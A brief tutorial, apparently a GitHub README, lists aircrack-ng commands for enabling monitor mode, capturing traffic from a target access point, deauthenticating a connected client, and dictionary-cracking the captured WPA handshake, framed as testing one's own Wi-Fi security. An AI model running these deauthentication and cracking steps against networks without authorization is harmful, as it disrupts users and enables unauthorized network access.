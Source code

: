 # Aircrack

In order to test your wifi security you can use the well known aircrack tools.

Preparing the interface :

    airmon-ng start wlan0

Identification of the target :

    airodump-ng mon0

Getting some IVs

    airodump-ng -c <channel> --bssid <B:S:S:I:D> -w wpa --ivs mon0

In parralel unconnect the client to have more IVs

    airplay-ng -0 5 -a <B:S:S:I:D> -c <mac:c:l:i:ent> mon0

Crack from the IVs

    aircrack-ng -w /tmp/password.lst wpa*.cap

